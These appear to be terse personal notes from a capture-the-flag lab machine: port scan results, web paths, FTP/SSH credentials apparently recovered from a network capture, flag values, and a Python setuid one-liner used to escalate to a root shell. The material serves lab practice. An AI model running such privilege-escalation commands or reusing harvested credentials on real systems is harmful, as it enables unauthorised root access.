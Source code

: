 IP:- 10.10.10.245

namp:-
	PORT   STATE SERVICE VERSION
	21/tcp open  ftp     vsftpd 3.0.3
	22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
	80/tcp open  http    gunicorn

Dirs:
	/ip
	/data/
	/netstat





From ip/data/0
I have to download the network file!! 
then inspect it!!
there is an FTP service!



USER:- nathan
PASS:- Buck3tH4TF0RM3!


ssh on:-  ssh nathan@10.10.10.245
	user_flag:- 14bad84aeb4d9d0e4dcaf6e47f4e130e


root:x:0:0:root:/root:/bin/bash -> permission dey nah :(
	RS- python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'

	root_flag:- cfa83f0f55e63bec1ead8f66a742837f